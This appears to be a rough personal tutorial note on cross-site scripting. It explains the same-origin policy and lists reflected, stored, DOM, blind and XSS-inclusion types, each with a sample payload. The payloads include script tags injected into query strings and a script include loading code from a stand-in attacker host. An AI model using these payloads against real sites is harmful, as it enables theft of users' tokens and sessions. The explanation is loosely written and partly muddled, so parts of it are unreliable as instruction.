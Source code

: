 *XSS => Cross Site Scripting 


This attack occurs whenever we can load a JavaScript code in the DOM of the desired page.

this attack aims the Victim's browser , not the server!


- bypass SOP:

  
   https://target.tld/search?q=<XSS_Payload>


For example, the attacker in the above address has realized that he can launch an XSS attack by injecting the payload, and he knows that the target token is located in the /usr/token path, and he can get it with the right payload. 


for example :

Payload => script src="https://target.tld/usr/token.js"></script>
browser console => alert(token);


But if the attacker wants to send a request directly to that path, SOP stops the browser!


*XSS Types:


  - Reflected XSS(RXSS):

    
     https://target.tld/search?q=<script>alert(1);</script>


  - Stored XSS(SXSS):

    
     https://target.tld/user?email=<script>alert(1);</script>


  - DOM XSS(DXSS):

    
    https://target.tld/user#";alert(1);

    
    developer => location.hash


   - Blind XSS(BXSS):
   
    The code runs where Attacker doesn't see it


   
   - XSSi => XSS Inclusion

     
         - js => automate generate 
         - email , token , ...
             - exploit : 
                            <script src="http://atacker.tld/info.js"></script>
